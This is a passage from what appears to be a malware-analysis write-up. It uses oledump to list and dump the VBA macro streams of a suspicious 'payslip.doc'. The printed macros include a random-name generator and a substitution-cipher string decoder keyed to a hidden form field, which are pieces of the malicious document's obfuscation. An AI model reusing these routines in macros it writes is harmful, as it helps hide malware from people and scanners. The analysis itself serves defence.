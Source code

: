  13: M     980 'Macros/VBA/Module2'
 14: M    1660 'Macros/VBA/ThisDocument'
 15: M    3138 'Macros/VBA/UserForm1'
 16:      5296 'Macros/VBA/_VBA_PROJECT'
 17:      1370 'Macros/VBA/dir'
 18:        26 'ObjectPool/_1591570249/\x03OCXNAME'
 19:         6 'ObjectPool/_1591570249/\x03ObjInfo'
 20:        94 'ObjectPool/_1591570249/Contents'
 21:      4096 'WordDocument'
{% endhighlight %}
<br>In this case the streams 12 - 15 contain macros and therefore look interesting. The idea is now to extract the macro code.<br><br>

```
$ python oledump.py payslip.doc -v -s 12
Attribute VB_Name = "Module1"
Function gnkruhl()
Randomize
leng = 6 * Rnd() + 4
name1 = ""
For i = 1 To leng
num = 24 * Rnd() + 97
name1 = name1 + Chr(num)
Next i
gnkruhl = name1
End Function

Function DecodeString(text)
decode = ""
For i = 1 To Len(text)
decode = decode + GetAlphabetSymbol(SearchNum(Mid(text, i, 1)), 5)
Next i
DecodeString = decode
End Function

Function GetAlphabetSymbol(num, key)
If num - key < 1 Then
GetAlphabetSymbol = Mid(UserForm1.TextBox1, Len(UserForm1.TextBox1) + num - key, 1)
Else
GetAlphabetSymbol = Mid(UserForm1.TextBox1, num - key, 1)
End If
End Function

Function SearchNum(symbol)
For i = 1 To Len(UserForm1.TextBox1)
If symbol = Mid(UserForm1.TextBox1, i, 1) Then
SearchNum = i
End If
Next i
End Function

$ python oledump.py payslip.doc -v -s 13
Attribute VB_Name = "Module2"
Function test2(ByRef text, dec, name)
text = text + dec + name
End Function

$ python oledump.py payslip.doc -v -s 14
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
```
